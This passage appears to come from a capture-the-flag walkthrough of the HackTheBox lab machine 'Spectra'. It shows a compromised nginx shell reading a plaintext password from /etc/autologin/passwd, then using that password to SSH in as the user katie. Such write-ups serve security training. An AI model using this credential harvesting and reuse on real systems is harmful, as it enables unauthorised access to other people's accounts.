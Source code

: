 ## Finding Creds
* While looking through the copious number of files on this box, find an interesting file
```bash
nginx@spectra /opt $ cat /etc/autologin/passwd
SummerHereWeCome!!
nginx@spectra /opt $ 
```
* Try to ssh in as user katie with this password
```bash
hunter@kali ~$ ssh katie@10.10.10.229
Password:
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $
```
